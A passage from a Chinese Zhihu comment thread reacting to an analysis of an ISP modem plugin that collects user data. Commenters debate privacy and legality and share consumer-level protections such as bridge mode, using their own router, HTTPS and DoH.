    - <a href="https://www.zhihu.com/people/qi-qi-74">柒柒</a> (<small title="四川">2026-11-18 11:50:18</small>): 光猫有远程下发配置的
38. <a href="https://www.zhihu.com/people/zou-zou-74-16-20">稊方</a> (<small title="上海">2026-11-18 8:7:59</small>): 众所周知，破坏计算机信息系统罪对大企业不适应。
    - <a href="https://www.zhihu.com/people/pnfy-yu">pnfy yu</a> (<small title="江西">2026-11-18 11:25:29</small>): 作者这样反编译电信的软件，才会被电信起诉成破坏计算机信息系统罪
    - <a href="https://www.zhihu.com/people/rt-58-92">塞塔RT</a> (<small title="广东">2026-11-18 15:35:57</small>): ［打招呼］这是辩证法精髓的体现，很少人能理解到
39. <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="江苏">2026-11-18 8:6:5</small>): 我直接换掉了运营商的光猫
    - <a href="https://www.zhihu.com/people/allesgut-61">allesgut</a> (<small title="云南">2026-11-18 8:9:37</small>): 换哪个牌子的靠谱？
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="回复于 2026-11-18 8:12:51/江苏"> ✉️:allesgut</small>): hsgq 这个牌子是最简单干净的
    - <a href="https://www.zhihu.com/people/lao-cai-niao-93">老菜鸟</a> (<small title="上海">2026-11-18 13:57:19</small>): 光猫和家庭宽带网关是一回事吗？现在宽带就装一个家庭网关。
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="回复于 2026-11-18 14:10:12/江苏"> ✉️:老菜鸟</small>): 家庭网关，就是光猫加上了一堆乱七八糟的东西
40. <a href="https://www.zhihu.com/people/akame-43-27">momo</a> (<small title="广东">2026-11-18 11:55:20</small>): 习惯了［酷］
41. <a href="https://www.zhihu.com/people/an-pang-zhi-42">两根腋毛</a> (<small title="辽宁">2026-11-18 9:38:2</small>): 我用的自己的光猫
    - <a href="https://www.zhihu.com/people/lin-mu-ran-13">林慕然</a> (<small title="河南">2026-11-18 10:31:50</small>): 第三方固件的光猫猫腻更多，那就不止是想宽带运营商发送信息了，还可能跑其他奇奇怪怪的［捂脸］
    - <a href="https://www.zhihu.com/people/25-73-71-12">北极星黎明</a> (<small title="回复于 2026-11-18 11:20:52/重庆"> ✉️:林慕然</small>): 可以用AI逆向，然后用AI自己写固件
    - <a href="https://www.zhihu.com/people/15-58-76-33-49">宾虚</a> (<small title="江苏">2026-11-18 11:29:0</small>): 用自己的光猫最后的数据还是要走电信机房走，还是泄露。
    - <a href="https://www.zhihu.com/people/pangaoming">搞不明</a> (<small title="回复于 2026-11-18 11:39:46/上海"> ✉️:林慕然</small>): 自己买的光猫有root权限，后台在运行什么借助AI基本都能分析出来
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="回复于 2026-11-18 14:11:25/江苏"> ✉️:宾虚</small>): 用自己的光猫，机房只能看到三层，看不到局域网二层的信息
42. <a href="https://www.zhihu.com/people/jinrong-yang">荒野大嫖客</a> (<small title="广东">2026-11-18 9:37:44</small>): 还好，我家两个光猫都是改桥接的。
    - <a href="https://www.zhihu.com/people/lao-cai-niao-93">老菜鸟</a> (<small title="上海">2026-11-18 13:57:50</small>): 请教什么叫改桥接？有什么作用吗？
43. <a href="https://www.zhihu.com/people/hui-fei-de-shi-tou-21">会飞的石头</a> (<small title="山东">2026-11-18 8:48:2</small>): 移动的有人深挖，到底干啥，传啥嘛？
44. <a href="https://www.zhihu.com/people/bu-ming-suo-yi-10-7">奋斗的荆轲</a> (<small title="浙江">2026-11-18 11:23:59</small>): 答主小心，这种事情是犯罪的，可能会被起诉坐牢［感谢］。上回不是有个黑客比赛，就被厂家告了嘛，全世界只有国内不能举办这个东西
    - <a href="https://www.zhihu.com/people/ban-zhu-ren-wang-lao-shi">行止从心</a> (<small title="浙江">2026-11-18 11:27:6</small>): 你这是什么话，那里都不欢迎这种的，大手 换到国外你就不认识啦？ 自己改着玩玩就好，没人管你
    - <a href="https://www.zhihu.com/people/bu-ming-suo-yi-10-7">奋斗的荆轲</a> (<small title="回复于 2026-11-18 12:29:20/浙江"> ✉️:行止从心</small>): 看来清华大学是哪里都不存在的学校？［思考］不懂去查下，不要上来就评论。这种赛事在全球范围内都是合规，甚至是大受欢迎的，只有玩不起的公司会来起诉。
45. <a href="https://www.zhihu.com/people/nexklee">简阅石</a> (<small title="贵州">2026-11-18 10:40:59</small>): 没想到这里遇到v友 这玩意意料之中 还好我是路由拨号 不过感觉只是杯水级防御
46. <a href="https://www.zhihu.com/people/nacn-66">新课标高等数学</a> (<small title="福建">2026-11-18 8:37:44</small>): 说反zha是对的。系统里本来就有loid，这玩意也没啥用；核心网那边IMEI之类的好像有其他途径上报获取，也没啥大用。运营商收集信息的最大动力是查pcdn［doge］别的又不赚钱能有啥动力去干；至于其他，运营商头上有通管局，那上级让你做你总不能不做吧［doge］
47. <a href="https://www.zhihu.com/people/lixin-liu-79">lixin liu</a> (<small title="北京">2026-11-18 12:30:40</small>): 怎么感觉还有点技术实力的样子，有点突破刻板印象［为难］
    - <a href="https://www.zhihu.com/people/zhao-bo-wei-39-82">虚名用户</a> (<small title="美国">2026-11-18 14:9:49</small>): 有啥啊这又不是啥高精尖
48. <a href="https://www.zhihu.com/people/zong-shi-96">北戴河</a> (<small title="河南">2026-11-18 11:34:6</small>): 明面说反炸 实则🎧
49. <a href="https://www.zhihu.com/people/los-lu">Los Lu</a> (<small title="上海">2026-11-18 11:26:59</small>): 能用https就别用http了，有条件doh也用上
    - **Alex** (<small title="上海">2026-11-18 14:42:52</small>): 方向没错，但对这个插件只能挡住一部分，要分开看。一是 HTTPS：自己浏览器访问网站尽量走 HTTPS，网址和 Cookie 光猫就看不到了。但插件里 xid 抓手机号、IMEI、OAID 这一块，抓的主要是手机 App 和广告 SDK 自己发出去的明文 HTTP 请求，用户没法替 App 改成 HTTPS，除非卸掉那个 App。而且就算全走 HTTPS，https 模块照样能从 TLS 握手里读出访问的域名（SNI），再配上设备 MAC 和时间戳，除非网站和客户端都支持 ECH。二是 DoH：它加密的是 DNS 查询，能让插件的 dns 模块看不到你查了哪些域名，但跟 xid 抓设备 ID 不是一回事，而且只防 DNS，不防 SNI，单开 DoH 不等于域名藏住了。真正一次解决的还是让光猫不在流量路径上当路由：光猫桥接、自己的路由器拨号，插件就没有上网通道，看到的东西也很少。HTTPS 和 DoH 是在这个基础上再加一层。<div><br></div>
50. <a href="https://www.zhihu.com/people/gao-jian-chi-34">高渐离</a> (<small title="上海">2026-11-18 13:58:49</small>): 光猫这个破烂性能，解得动所有流量吗
51. <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="江苏">2026-11-18 10:32:56</small>): 让他收集好了，反正我又不干违法违规的事情，怕什么，他们有这些数据，了解真实上网习惯，说不定还能改进服务质量。
    - <a href="https://www.zhihu.com/people/wei-ge-hao">未设置</a> (<small title="山西">2026-11-18 11:2:58</small>): ［尴尬］［尴尬］［尴尬］［尴尬］
    - <a href="https://www.zhihu.com/people/fu-sheng-meng-85">浮生梦</a> (<small title="河北">2026-11-18 11:5:43</small>): 你不要隐私，不等于别人不要隐私
    - <a href="https://www.zhihu.com/people/wang-si-tu-32">王斯图</a> (<small title="加拿大">2026-11-18 11:11:15</small>): 温水里的()()现身说法
    - <a href="https://www.zhihu.com/people/xiao-xiao-dao-hang">姆贝亚</a> (<small title="四川">2026-11-18 11:23:20</small>): 怕内部人员泄露信息，前段时间不就爆出过公安干警倒卖信息吗？［捂脸］
    - <a href="https://www.zhihu.com/people/gei-da-lao-di-cha-11">给大佬递茶</a> (<small title="安徽">2026-11-18 11:24:16</small>): 幽默苏北［尴尬］
    - <a href="https://www.zhihu.com/people/gei-da-lao-di-cha-11">给大佬递茶</a> (<small title="安徽">2026-11-18 11:24:54</small>): 
    - <a href="https://www.zhihu.com/people/jing-jie-82-29">不能说太细</a> (<small title="湖北">2026-11-18 11:44:27</small>): 你们这些硕士都喜欢裸奔吗？［为难］
    - <a href="https://www.zhihu.com/people/e-e-e-31-89">那个谁谁谁</a> (<small title="河南">2026-11-18 11:45:35</small>): 违法不违法，不是你说了算，而是它们说了算
    - <a href="https://www.zhihu.com/people/tetsuya1992">AThousandSuns</a> (<small title="山东">2026-11-18 11:51:54</small>): 首先基础的隐私要有<div><br></div>其次，你为什么会觉得他们会改进服务质量？<div><br></div>emmmm<div><br></div>说你天真不过分吧。［捂脸］
    - <a href="https://www.zhihu.com/people/5-75-52-24">momo</a> (<small title="福建">2026-11-18 11:53:38</small>): 你怎么知道你有没有违法违规？［思考］
    - <a href="https://www.zhihu.com/people/lixiutian">Lisk</a> (<small title="江苏">2026-11-18 11:56:53</small>): 你喜欢可以自己单独搞
    - <a href="https://www.zhihu.com/people/li-shi-qiao">道之用</a> (<small title="上海">2026-11-18 12:7:36</small>): 对 你又不违法，怕啥，将你的手机号 身份证号 地址 年龄，学校告诉网友呗
    - <a href="https://www.zhihu.com/people/93-90-51-93">干吃薯条</a> (<small title="辽宁">2026-11-18 12:10:58</small>): 支持
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 12:18:44/江苏"> ✉️:道之用</small>): 我的个人认证里就有啊，点开看就行了。
    - <a href="https://www.zhihu.com/people/mai-ke-chen">迈克陈</a> (<small title="广东">2026-11-18 12:21:32</small>): 收集之后除了国安，还有谁能访问不想了解一下？知道你是盘盘，但想还选择做憨憨就很可笑
    - <a href="https://www.zhihu.com/people/krab-17-29">Krab</a> (<small title="江苏">2026-11-18 12:32:1</small>): 还真别说，这种人大多是苏州无锡的
    - <a href="https://www.zhihu.com/people/rollo-22-98">rollo</a> (<small title="浙江">2026-11-18 13:22:50</small>): 牛逼啊老哥哥
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 13:24:56/江苏"> ✉️:迈克陈</small>): 谁高兴看就看好了啊，搞得我的访问记录多值钱似的［飙泪笑］
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 13:28:10/江苏"> ✉️:AThousandSuns</small>): 要是没有用户数据，改进服务质量就更加无从谈起了
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 13:29:31/江苏"> ✉️:momo</small>): 我用了十几年的宽带，一直都是运营商给的路由器，到现在还好好的，资费没涨还提速了好几次［酷］
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 13:29:57/江苏"> ✉️:Lisk</small>): 专线很贵的，搞不起
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 13:31:5/江苏"> ✉️:那个谁谁谁</small>): 要是它们随随便就说违法，谁还会买它们家的宽带，人家不要赚钱的么？
    - <a href="https://www.zhihu.com/people/lao-cai-niao-93">老菜鸟</a> (<small title="回复于 2026-11-18 13:59:31/上海"> ✉️:姆贝亚</small>): 别胡说八道，真有这样的人要被枪毙的
    - <a href="https://www.zhihu.com/people/li-shi-qiao">道之用</a> (<small title="回复于 2026-11-18 14:57:57/上海"> ✉️:diaodiaoidaoidao</small>): 请看清楚什么叫：手机号，身份证号，年龄，地址。我还想知道你的薪水，银行卡余额，身高，体重，工作单位之类的，全报出来，让网友鉴赏一下呗。反正你又不违法，怕啥。
    - <a href="https://www.zhihu.com/people/li-shi-qiao">道之用</a> (<small title="上海">2026-11-18 15:2:42</small>): 顺便给自己卧室装个监视器，然后公开网址，让大家公开参观一下你每天在家里干嘛，你又不犯法，你怕啥。
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 15:35:21/江苏"> ✉️:道之用</small>): 我的个人认证里就有啊，你点开看就是了，我的号是实名认证的。其他的信息我在我的往期视频、直播里面都介绍过，可以关注一下，经常看的粉丝都知道的。
    - <a href="https://www.zhihu.com/people/diao-idao-idea-99-22">diaodiaoidaoidao</a> (<small title="回复于 2026-11-18 15:36:37/江苏"> ✉️:道之用</small>): 我也想这样啊，要不是抖音不允许挂机直播，只要能涨粉，我巴不得每天24小时直播呢。
52. <a href="https://www.zhihu.com/people/certer">小天</a> (<small title="河北">2026-11-18 9:51:31</small>): 搞得你自己好像和别人不一样一样，真要查你还需要这些？你只要上网都是裸奔的，不要觉得自己很与众不同。
    - **Alex** (<small title="上海">2026-11-18 10:24:23</small>): 为众人抱薪者，不可使其冻毙于风雪。为自由开路者，不可使其困顿于荆棘。为生民立命者，不可使其殒殁于无声。我没有与众不同，但对一个人的不公，就是对所有人的威胁。
    - <a href="https://www.zhihu.com/people/47-98-16-52-36">动态导览图</a> (<small title="回复于 2026-11-18 10:56:24/上海"> ✉️:Alex</small>): 英雄孤独
    - <a href="https://www.zhihu.com/people/alex-meng-90">AlexM</a> (<small title="美国">2026-11-18 11:0:27</small>): 有人不乐意裸奔你还看不过去了是吧［捂脸］
    - <a href="https://www.zhihu.com/people/wang-xin-59-98-24">王鑫</a> (<small title="回复于 2026-11-18 11:32:48/河南"> ✉️:Alex</small>): 这是对全民的窥视与犯罪
    - <a href="https://www.zhihu.com/people/liao-yi-4">踏月留香</a> (<small title="四川">2026-11-18 11:49:29</small>): 不感冒看了划走就是了 帖主普及下知识 还嘲讽上了 自爆卡车还是挺有效果的
    - <a href="https://www.zhihu.com/people/12e6f7a">12e6f7a</a> (<small title="新疆">2026-11-18 12:21:25</small>): 那你脱了我看看呗，反正你也不是与众不同的［捂脸］［捂脸］［捂脸］
    - <a href="https://www.zhihu.com/people/zou-zou-74-16-20">稊方</a> (<small title="回复于 2026-11-18 15:19:24/上海"> ✉️:Alex</small>): 要尊重生物多样性的事实
53. <a href="https://www.zhihu.com/people/51-49-55-86-26">江湾渔夫</a> (<small title="广西">2026-11-18 12:54:26</small>): 证据确凿分析细致，赞！但必须提醒答主，小心被人扣上“恶意揭穿内幕”的帽子［大笑］
54. <a href="https://www.zhihu.com/people/xi-xiao-xiao-40-29">SkyChey</a> (<small title="安徽">2026-11-18 8:16:45</small>): 不让改桥接死活不给超级密码，说那个要和公网IP一起办理，月租起码300朝上的套餐才行
    - <a href="https://www.zhihu.com/people/78-63-63-28">在禁言边缘试探</a> (<small title="北京">2026-11-18 10:28:30</small>): 投诉就行
    - <a href="https://www.zhihu.com/people/pricatz">FisherPri C</a> (<small title="北京">2026-11-18 10:49:49</small>): \- 改桥接可以打10000/10010/10086，认证机主身份后就可以直接下发配置，宽带的账号和密码也都会给你用于配置自己的路由器。不需要超密。<div><br></div>  <div><br></div>\- 超密不给，并且现在的新猫的超密是动态的，给了你也就只能用5分钟左右。<div><br></div>  <div><br></div>\- 公网IPv4，这个是稀缺资源，给你是运气好，不给你也没办法，且部分省份这个是加钱可以有的。
55. <a href="https://www.zhihu.com/people/liu-yu-5-11-75">鸽鸽</a> (<small title="未知">2026-11-18 11:5:15</small>): ai时代，自己撸一个光猫算了
56. <a href="https://www.zhihu.com/people/JackLabs">挽尊小优优</a> (<small title="河南">2026-11-18 14:26:48</small>): 破坏国有资产警告！⚠️［doge］
57. <a href="https://www.zhihu.com/people/41-88-4-28">飞行的棋盘</a> (<small title="内蒙古">2026-11-18 11:40:53</small>): 问题上，即便是拨号，这些东西在机房也能看得到啊
    - <a href="https://www.zhihu.com/people/sx2018-8">嘴角上扬</a> (<small title="河南">2026-11-18 11:48:10</small>): 成本不一样
    - <a href="https://www.zhihu.com/people/terry-81">Terry</a> (<small title="回复于 2026-11-18 13:0:11/浙江"> ✉️:嘴角上扬</small>): 有道理，花用户的钱监视用户，这样才能无成本的全面覆盖，
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="江苏">2026-11-18 14:6:59</small>): 二层在机房看不到，机房只能看到三层
58. <a href="https://www.zhihu.com/people/H3D">姚勇</a> (<small title="北京">2026-11-18 8:59:15</small>): big brother［感谢］
59. <a href="https://www.zhihu.com/people/w1987w">练习时长两年半</a> (<small title="河北">2026-11-18 4:11:33</small>): 难怪现在光猫基本都带wifi路由器功能而且改桥接不愿意给改
60. <a href="https://www.zhihu.com/people/the-thinker">thinker</a> (<small title="重庆">2026-11-18 11:35:44</small>): 不奇怪，可以说是在意料之中。  <div><br></div>  <div><br></div>不过，如果在光猫后面，自己再接一个WiFi路由器，应该就没有什么影响了吧。在这种情况下，光猫就是在自家内网的外面，相当于是在电信自己的网络上。  <div><br></div>  <div><br></div>退一步说，即使是终端（电脑、手机之类的）直接通过WiFi连接到光猫，应该也影响不大吧。在这种情况下，相当于是终端直接连接到外部不受信任的网络。记得不要在这种网络里进行一些不加密的内网通信（比如，使用一些不加密的内网传文件的软件），就行了。
    - <a href="https://www.zhihu.com/people/the-thinker">thinker</a> (<small title="重庆">2026-11-18 11:46:59</small>): 很多WiFi路由器是国产的，其实也不一定值得信任。所以，可以都看作是，终端（电脑、手机之类的）直接连接到外部不受信任的网络。都不要进行不加密的内网通信（比如，使用一些不加密的内网传文件的软件）。
    - <a href="https://www.zhihu.com/people/sx2018-8">嘴角上扬</a> (<small title="河南">2026-11-18 11:49:3</small>): 就是不知道路由器有没有被安装插件，按一般推理也是有的。
    - <a href="https://www.zhihu.com/people/the-thinker">thinker</a> (<small title="回复于 2026-11-18 11:52:8/重庆"> ✉️:嘴角上扬</small>): 是的［捂脸］ 看我下面的评论。如果用的是国产的WiFi路由器，可以还是看成是终端（电脑、手机之类的）直接连接到外部不受信任的网络。或者，使用国外生产的路由器。
    - <a href="https://www.zhihu.com/people/sx2018-8">嘴角上扬</a> (<small title="回复于 2026-11-18 11:55:13/河南"> ✉️:thinker</small>): 外国的路由器没有入网许可，咱应该买不到。感觉完全避免被监控做不到，只能提高被监控的成本。
    - <a href="https://www.zhihu.com/people/the-thinker">thinker</a> (<small title="回复于 2026-11-18 12:2:10/重庆"> ✉️:嘴角上扬</small>): WiFi路由器好像不需要什么入网许可。网上好像就有国外的牌子的路由器卖。如果要更保险，可以直接去国外一趟，买一个国外的WiFi路由器，再带回来。
    - <a href="https://www.zhihu.com/people/sx2018-8">嘴角上扬</a> (<small title="回复于 2026-11-18 12:25:43/河南"> ✉️:thinker</small>): 需要。刷openwrt能解决问题吗
    - <a href="https://www.zhihu.com/people/the-thinker">thinker</a> (<small title="回复于 2026-11-18 12:30:9/重庆"> ✉️:嘴角上扬</small>): 我没有刷过这个东西［捂脸］ 我一般是买台湾生产的D-Link路由器。我觉得，对于一般人来说，路由器做到这一步就可以了。保护网上的隐私，更多的是靠终端进行保护。即使路由器完美保护了，流量最后还是会到运营商（比如电信）那里，没有多大的意义。
61. <a href="https://www.zhihu.com/people/guai-dao-ji-de-35">魔术快斗</a> (<small title="美国">2026-11-18 8:28:23</small>): 不要打10010，报修一下让你们片区的工作人员上门，说两句好话拉拉关系，让他明白你是懂行的，再向他要超级密码，他会用短信发你
    - <a href="https://www.zhihu.com/people/zou-zou-74-16-20">稊方</a> (<small title="上海">2026-11-18 8:45:12</small>): 现在超级密码没啥用，现在都是后台直接下发而且统一设置，只能通过换光猫的方式解决
    - <a href="https://www.zhihu.com/people/jinrong-yang">荒野大嫖客</a> (<small title="回复于 2026-11-18 9:40:0/广东"> ✉️:稊方</small>): 广东电信实测，光猫认证成功后会自动改随机管理员密码，运维人员也不知道。不过可以叫改桥接。
    - <a href="https://www.zhihu.com/people/liu-li-yang-28-8">Leeyoung</a> (<small title="河南">2026-11-18 9:58:26</small>): 咸鱼上两块钱找个给你查就行［捂脸］找师傅他不一定乐意给
62. <a href="https://www.zhihu.com/people/jnsday">命运多兰客</a> (<small title="江苏">2026-11-18 8:2:25</small>): 看来都用第三方的光猫
    - <a href="https://www.zhihu.com/people/sanshaoye">易柯曹</a> (<small title="上海">2026-11-18 8:15:40</small>): 能举个例子吗
    - <a href="https://www.zhihu.com/people/lin-mu-ran-13">林慕然</a> (<small title="河南">2026-11-18 10:35:16</small>): 第三方鬼知道里面刷了啥固件，跑了啥奇怪程序［捂脸］
63. <a href="https://www.zhihu.com/people/tai-zhi-chang-qin-9">天南第一剑修</a> (<small title="上海">2026-11-18 9:28:6</small>): 什么http请求会加imei phone这种参数？
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="江苏">2026-11-18 14:8:24</small>): 手机app里面的sdk
64. <a href="https://www.zhihu.com/people/meng-lee-39">AwayLee</a> (<small title="江苏">2026-11-18 11:33:16</small>): 这都是必然的，以前在服务测收集。现在用户侧能力强了，这部分就下放了，不就是边缘计算么［酷］
    - <a href="https://www.zhihu.com/people/denis-liu-66">Denis Liu</a> (<small title="广东">2026-11-18 12:22:45</small>): 是啊，反正光纤另一头也是他们的设备
65. <a href="https://www.zhihu.com/people/jia-yu-29-79">嘉语</a> (<small title="宁夏">2026-11-18 9:6:47</small>): 坐标宁夏银川家里两个宽带  <div><br></div>电信 桥接 ipv4+ipv6公网动态ip  <div><br></div>移动 桥接 ipv6公网动态ip  <div><br></div>  <div><br></div>［大笑］［大笑］［大笑］ 其实ipv6公网ip就足够用了，ipv4公网op太容易被攻击了［飙泪笑］
66. <a href="https://www.zhihu.com/people/raphlgu">大花猫还在</a> (<small title="上海">2026-11-18 9:4:34</small>): 这种事儿真不值得花这么代价去分析，那是一定的，就像吃菜要放盐一样
    - <a href="https://www.zhihu.com/people/5-75-52-24">momo</a> (<small title="福建">2026-11-18 11:52:33</small>): 吃菜要放盐，不代表所有菜都必须放盐，也不代表不需要知道放了多少盐 ［飙泪笑］
67. <a href="https://www.zhihu.com/people/bu-wan-dao-ban-de">不玩盗版的</a> (<small title="广西">2026-11-18 7:44:59</small>): 夸张哦，这是能发的吗，v2那个人直接就被喝茶了
    - <a href="https://www.zhihu.com/people/da-feng-che-zhi-zhi-zhi">大风车吱吱吱</a> (<small title="贵州">2026-11-18 7:55:4</small>): 被喝茶那个是直接下结论说光猫内置反z
    - <a href="https://www.zhihu.com/people/shushu92">miaomiao-1</a> (<small title="回复于 2026-11-18 8:35:1/江苏"> ✉️:大风车吱吱吱</small>): 泄漏了国家机密
68. <a href="https://www.zhihu.com/people/k723">k723</a> (<small title="广东">2026-11-18 11:9:39</small>): 他们知道我们知道他们知道.......
69. <a href="https://www.zhihu.com/people/ty-cai">ty cai</a> (<small title="安徽">2026-11-18 9:11:37</small>): 没啥意思，他真要拿这些http数据 他在他们机房镜像一部分流量就可以做
    - <a href="https://www.zhihu.com/people/pnfy-yu">pnfy yu</a> (<small title="江西">2026-11-18 11:24:30</small>): 那边是nat后的，没有原始ip和mac地址了
    - <a href="https://www.zhihu.com/people/li-yang-22-28-58">Zy143L</a> (<small title="陕西">2026-11-18 11:48:19</small>): 那有没有一种可能 也做了呢  <div><br></div>只不过这是不同分支下的采集
70. <a href="https://www.zhihu.com/people/zhang-he-5-27">常驻1028</a> (<small title="北京">2026-11-18 7:11:46</small>): 联通隔半年就打一次电话说给我免费升级光猫，都被我拒绝了。［doge］
    - <a href="https://www.zhihu.com/people/da-feng-che-zhi-zhi-zhi">大风车吱吱吱</a> (<small title="贵州">2026-11-18 7:56:17</small>): 我这里也是。电信打电话跟我说升级，统统拒绝，我早就换了2.5G的猫棒，才几十块钱
    - <a href="https://www.zhihu.com/people/lin-mu-ran-13">林慕然</a> (<small title="河南">2026-11-18 10:38:19</small>): 他要真想看你数据，在他自己的机房就看到了，而且你完全没有感知，你换不换都不影响
    - <a href="https://www.zhihu.com/people/alex-meng-90">AlexM</a> (<small title="回复于 2026-11-18 11:1:23/美国"> ✉️:林慕然</small>): 一般流量是加密的，看不见HTTP头。
    - <a href="https://www.zhihu.com/people/yang-zhu-23-26">羊猪</a> (<small title="回复于 2026-11-18 12:13:47/浙江"> ✉️:林慕然</small>): 非暴力不合作。 极大提高管理成本
71. <a href="https://www.zhihu.com/people/fa-jing">GNUBULL</a> (<small title="上海">2026-11-18 10:53:44</small>): 锅➕为了反诈骗殚精竭虑
    - <a href="https://www.zhihu.com/people/bai-cloud-27">白客劳德</a> (<small title="浙江">2026-11-18 11:54:40</small>): 真是反诈么？真的只有反诈么？还是你说了不利于团结的话，方便来提高你的团结意识［酷］
    - <a href="https://www.zhihu.com/people/xiang-nan-zou-94">向南走</a> (<small title="湖北">2026-11-18 12:9:32</small>): 结果信息全跑缅北了［为难］
    - <a href="https://www.zhihu.com/people/li-xing-feng">熵减者</a> (<small title="江苏">2026-11-18 12:20:4</small>): 这个不是为了反诈，就是监控，棱镜嘛
    - <a href="https://www.zhihu.com/people/qia-xi-mo-duo-50">卡西莫多</a> (<small title="回复于 2026-11-18 13:4:18/广东"> ✉️:白客劳德</small>): 我想了半天也想不出什么场景下能通过http去说不团结的话
72. <a href="https://www.zhihu.com/people/fei-yue-xxx">飞跃xxx</a> (<small title="辽宁">2026-11-18 6:38:47</small>): 斯诺登


=[评论](./attachments/comments.json)

